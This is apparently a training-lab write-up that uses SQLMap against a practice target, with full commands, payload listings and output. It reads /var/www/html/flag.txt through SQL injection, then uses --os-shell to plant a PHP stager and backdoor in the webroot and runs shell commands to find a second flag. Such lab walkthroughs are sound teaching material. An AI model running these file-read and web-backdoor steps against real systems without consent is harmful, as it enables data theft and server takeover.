



## Exercises

### Question 1 — Try to use SQLMap to read the file "/var/www/html/flag.txt".

Landed on the target's landing page, titled "OS Exploitation," which said to use the SQLi vulnerability in GET parameter `id` to exploit the host OS.



Clicked through to `?id=1` and used Copy as cURL from the Network panel to grab the request. A Wappalyzer check on the page confirmed the stack: Apache 2.4.38 on Debian, with jQuery and Bootstrap on the front end.





#### Checking for DBA Privileges

Before attempting a file read, checked whether the current database user had DBA rights with `--is-dba`, since the module material notes this makes file-read privileges far more likely:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.80:37025/?id=1' --is-dba --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.10.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:16:52 /2026-10-25/

[12:16:53] [INFO] testing connection to the target URL
[12:16:53] [INFO] testing if the target URL content is stable
[12:16:53] [INFO] target URL content is stable
[12:16:53] [INFO] testing if GET parameter 'id' is dynamic
[12:16:53] [INFO] GET parameter 'id' appears to be dynamic
—SNIP—
current user is DBA: True
[12:17:15] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.80'

[*] ending @ 12:17:15 /2026-10-25/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.80:37025/?id=1'` is the target URL
- `--is-dba` checks whether the current user has DBA (administrator) rights
- `--batch` skips every interactive prompt by automatically choosing the default option

The result came back `current user is DBA: True`, confirming it was worth attempting a file read.

#### Reading the File

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.80:37025/?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.80:37025/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --file-read="/var/www/html/flag.txt"   
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:18:47 /2026-10-25/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[12:18:47] [INFO] testing connection to the target URL
[12:18:47] [INFO] testing if the target URL content is stable
[12:18:47] [INFO] target URL content is stable
[12:18:47] [INFO] testing if URI parameter '#1*' is dynamic
[12:18:47] [INFO] URI parameter '#1*' appears to be dynamic
[12:18:48] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
[12:18:48] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[12:18:48] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
—SNIP—
[12:19:09] [INFO] target URL appears to have 6 columns in query
[12:19:09] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 43 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.80:37025/?id=1 AND 3825=3825

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: http://154.57.164.80:37025/?id=1 AND EXTRACTVALUE(3232,CONCAT(0x5c,0x71626b7671,(SELECT (ELT(3232=3232,1))),0x717a6a7a71))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://154.57.164.80:37025/?id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://154.57.164.80:37025/?id=1 AND (SELECT 6831 FROM (SELECT(!SLEEP(5)))uHEr)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://154.57.164.80:37025/?id=1 UNION ALL SELECT NULL,CONCAT(0x71626b7671,0x507776706a62574770564b585144646c4a49567448774176576b667051564c4462687355536f5569,0x717a6a7a71),NULL,NULL,NULL,NULL-- -
---
[12:19:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[12:19:09] [INFO] fingerprinting the back-end DBMS operating system
[12:19:09] [INFO] the back-end DBMS operating system is Linux
[12:19:09] [INFO] fetching file: '/var/www/html/flag.txt'
[12:19:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:19:10] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[12:19:10] [WARNING] unable to retrieve the content of the file '/var/www/html/flag.txt', going to fall-back to simpler UNION technique
[12:19:10] [INFO] fetching file: '/var/www/html/flag.txt'
[12:19:10] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
—REDACTED—
do you want confirmation that the remote file '/var/www/html/flag.txt' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[12:19:10] [INFO] retrieved: '31'
[12:19:10] [INFO] the local file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.80/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/—REDACTED—/.local/share/sqlmap/output/154.57.164.80/files/_var_www_html_flag.txt (same file)

[12:19:10] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.80'

[*] ending @ 12:19:10 /2026-10-25/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.80:37025/?id=1*'` is the target URL, with `*` marking the injection point
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--file-read="/var/www/html/flag.txt"` instructs SQLMap to read the specified file from the server's file system through the SQLi vulnerability

As with the module's own example, SQLMap's first attempt at a time-based technique for the read failed, so it fell back to a simpler UNION technique, which succeeded. The confirmation step checked that the local and remote copies of the file matched in size (31 bytes), confirming the file was retrieved intact.

#### Viewing the File

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat ~/.local/share/sqlmap/output/154.57.164.80/files/_var_www_html_flag.txt 

—REDACTED—
```

**Breakdown:**

- `cat` prints the contents of the given file to the terminal
- `~/.local/share/sqlmap/output/154.57.164.80/files/_var_www_html_flag.txt` is the local path SQLMap saved the retrieved file to, under its per-target output directory

**Answer:** `—REDACTED—`

### Question 2 — Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

With the injection point already confirmed from Question 1, the next run reused that stored session and attempted `--os-shell`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.80:37025/?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.80:37025/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:23:34 /2026-10-25/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[12:23:34] [INFO] resuming back-end DBMS 'mysql' 
[12:23:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.80:37025/?id=1 AND 3825=3825

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: http://154.57.164.80:37025/?id=1 AND EXTRACTVALUE(3232,CONCAT(0x5c,0x71626b7671,(SELECT (ELT(3232=3232,1))),0x717a6a7a71))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://154.57.164.80:37025/?id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://154.57.164.80:37025/?id=1 AND (SELECT 6831 FROM (SELECT(!SLEEP(5)))uHEr)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://154.57.164.80:37025/?id=1 UNION ALL SELECT NULL,CONCAT(0x71626b7671,0x507776706a62574770564b585144646c4a49567448774176576b667051564c4462687355536f5569,0x717a6a7a71),NULL,NULL,NULL,NULL-- -
---
[12:23:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[12:23:34] [INFO] fingerprinting the back-end DBMS operating system
[12:23:34] [INFO] the back-end DBMS operating system is Linux
[12:23:34] [INFO] testing if current user is DBA
[12:23:34] [INFO] fetching current user
[12:23:34] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
[12:23:34] [INFO] resumed: 'root@localhost'
what is the back-end database management system architecture?
[1] 32-bit
[2] 64-bit (default)
> 2
[12:23:34] [INFO] checking if UDF 'sys_exec' already exist
[12:23:35] [WARNING] reflective value(s) found and filtering out
[12:23:35] [INFO] checking if UDF 'sys_eval' already exist
[12:23:35] [INFO] detecting back-end DBMS version from its banner
[12:23:35] [INFO] resumed: '10.3.23-MariaDB-0+deb10u1'
[12:23:35] [INFO] retrieving MySQL plugin directory absolute path
[12:23:35] [INFO] resumed: '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/'
[12:23:37] [WARNING] time-based comparison requires larger statistical model, please wait...................... (done)
[12:23:38] [INFO] retrieved: ' '
[12:23:38] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[12:23:38] [ERROR] there has been a problem uploading the shared library, it looks like the binary file has not been written on the database underlying file system
do you want to proceed anyway? Beware that the operating system takeover will fail [y/N] N
[12:23:38] [INFO] falling back to web backdoor method...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] CFM
[4] JSP
[5] PHP (default)
> 5
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] Y
[12:23:38] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www, /usr/share/nginx/html') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[12:23:38] [WARNING] unable to automatically parse any web server path
[12:23:38] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[12:23:39] [WARNING] unable to upload the file stager on '/var/www/'
[12:23:39] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[12:23:39] [WARNING] expect junk characters inside the file as a leftover from UNION query
[12:23:39] [INFO] retrieved: ' '
[12:23:39] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[12:23:39] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[12:23:39] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://154.57.164.80:37025/tmpugyeh.php
[12:23:39] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://154.57.164.80:37025/tmpbmxfh.php
[12:23:39] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.80:37025/?id=1*'` is the target URL, with `*` marking the injection point
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--os-shell` attempts to obtain an interactive OS shell through the SQLi vulnerability

SQLMap resumed the stored injection point, confirmed the current DB user was `root@localhost`, and first tried its UDF (user-defined function) method for OS command execution. This attempt failed outright — the shared library could not be written to the database's underlying file system (`it looks like the file has not been written`), likely because the DBMS process itself lacked write permission there, despite the `root@localhost` DB user having DBA rights. Declining to proceed anyway (`N`), SQLMap automatically fell back to its web backdoor method instead, which asks for the server-side language (PHP, selected as default) and a writable directory to try.

SQLMap tried `/var/www/` first, which failed via both its usual method and a UNION-based fallback, before trying `/var/www/html/`, where both a "file stager" and a "backdoor" were uploaded successfully, dropping into an interactive `os-shell>` prompt.

> **Why it matters:** This is the same pattern the module material shows: `--os-shell` doesn't rely on one fixed method. Here, the UDF-based method (normally used first) failed due to a file-system write restriction, and SQLMap transparently switched to the web-shell-based method instead, succeeding on the second directory it tried.

#### Confirming the Environment

```text
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
```

This confirmed the shell was running as `www-data`, the standard Apache web server user on this Linux host — consistent with the backdoor having been written into the Apache webroot rather than achieved through the higher-privileged UDF method.

#### Searching for the Second Flag

```text
os-shell> find / -type f -name *flag*.txt &2>/dev/null
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
find: '/etc/ssl/private': Permission denied
find: '/proc/tty/driver': Permission denied
—SNIP—
find: '/root': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/lib/mysql/mysql': Permission denied
find: '/var/lib/mysql/performance_schema': Permission denied
find: '/var/lib/mysql/testdb': Permission denied
find: '/var/log/apache2': Permission denied
find: '/var/log/mysql': Permission denied
/var/www/html/flag.txt
/flag.txt
```

**Breakdown:**

- `find /` starts a recursive search from the file system root
- `-type f` restricts matches to regular files, excluding directories and other file types
- `-name *flag*.txt` matches any file whose name contains `flag` and ends in `.txt`
- `&2>/dev/null` was intended to silence error output, though the search still printed many `Permission denied` lines, since this shell command runs through SQLMap's `os-shell` wrapper rather than a literal interactive bash session, so standard shell redirection doesn't behave exactly as it would at a normal terminal

Despite the large number of `Permission denied` errors from directories the `www-data` user couldn't read (as expected for a non-privileged web server account), the search still located two matching files: the already-retrieved `/var/www/html/flag.txt`, and a new one directly at the file system root, `/flag.txt`.

#### Reading the Second Flag

```text
os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: '—REDACTED—'
```

**Answer:** `—REDACTED—`